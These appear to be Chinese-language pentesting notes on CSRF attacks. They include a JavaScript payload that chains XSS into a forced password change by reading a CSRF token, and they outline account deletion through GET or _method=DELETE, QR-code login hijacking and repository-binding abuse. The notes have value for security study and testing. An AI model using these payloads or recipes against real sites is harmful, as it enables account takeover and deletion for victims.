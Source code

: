 xss无法获取cookie造成危害的时候，尝试csrf，通过写payload获取csrftoken
ex.
```
var reg = new XMLHttpRequest();
reg.onload = reqListener; // 确保变量名一致
reg.open("POST", "https://test.com/profile/password", true);
reg.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
reg.withCredentials = true;
reg.send("user[password]=passwordtest&userpassword_confirmation=passwordtest&_csrf=" + document.querySelector("head > meta:nth-child(14)").content);

function reqListener() {
    var data = this.responseText;
    alert(data);
}
```

账号注销案例
ex.
```
POST /applications/ChangeUserInfo HTTP/1.1 

{
"username":""
"head":""
}
```
直接改为get请求，相当于直接没有参数，发给受害者就直接删除了账号.

二维码csrf
https://mp.weixin.qq.com/s/soms88YZP4GLAxy4fajQFg
二维码登陆流程
1. 服务器生成token，并且一直请求查看token被谁用了
2. 用户扫码确认登陆，通过cookie等方式把自己账号和该token绑定
3. 浏览器识别到token被使用，于是登陆到该账号
如何利用？
制作确认登陆那一步的数据包的poc发给受害者，让他和token绑定，然后我们的浏览器就登陆到受害者的账号了
![[c4a6ec97f16ba311b8fce47d55bfd34.jpg]]
二维码实际上的请求
![[55a16b78ccb00ada29377a7aafd1037.jpg]]

csrf仓库代码泄露案例
构造poc，让他在业务上登陆攻击者账号之后，请求绑定受害者的代码库。分两部分，第一部分通过抓登陆包抓到登陆的请求构造poc，第二步抓自动授权绑定的请求

通过_method进行csrf
比如说请求体_method=DELETE造成账号删除